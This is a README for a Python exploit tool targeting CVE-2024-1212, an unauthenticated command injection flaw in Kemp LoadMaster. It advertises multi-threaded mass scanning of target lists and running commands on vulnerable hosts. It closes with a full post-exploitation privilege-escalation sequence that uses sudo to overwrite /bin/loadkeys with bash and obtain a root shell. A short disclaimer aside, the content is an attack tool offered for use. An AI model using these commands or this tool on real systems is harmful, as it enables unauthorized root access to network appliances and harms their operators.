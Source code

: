 # CVE-2024-1212 Command Injection Exploit for Kemp LoadMaster 🛡️🔓

This Python script is designed as a proof of concept (PoC) to demonstrate an unauthenticated command injection vulnerability in Kemp LoadMaster, identified as CVE-2024-1212. 

## Features 🌟

- Scan a single target or multiple targets for the CVE-2024-1212 vulnerability.
- Execute commands on vulnerable targets.
- Utilize multi-threading for faster scanning of multiple targets.
- Save vulnerable targets to an output file for further analysis.

## Usage 🚀

To use this script, Python 3 must be installed on your system. You can execute the script in the terminal or command prompt as follows:

```bash
python exploit.py --url "http://target-url.com"
```

To scan multiple targets from a file:

```bash
python exploit.py -f targets.txt -o vulnerable.txt -t 50
```

### Options

- `-u`, `--url`: Specify a target URL for command injection.
- `-f`, `--file`: Specify a file containing target URLs to scan.
- `-o`, `--output`: Specify an output file for saving scan results.
- `-t`, `--threads`: Specify the number of threads to use for scanning.

## Disclaimer ⚠️

This tool is provided for educational purposes only and is designed to help security professionals test the vulnerability of their own systems. Unauthorized testing on systems that you do not have explicit permission to test is illegal and unethical. Use this tool responsibly.

## Privilege Escalation 🛡️

Once a shell has been obtained, privilege escalation can be achieved by following these commands as per the researcher's guidance:

```bash
sudo /bin/cp /bin/loadkeys /tmp/loadkeys
sudo /bin/cp /bin/bash /bin/loadkeys
sudo /bin/loadkeys -c /bin/bash
cp /tmp/loadkeys /bin/loadkeys
```

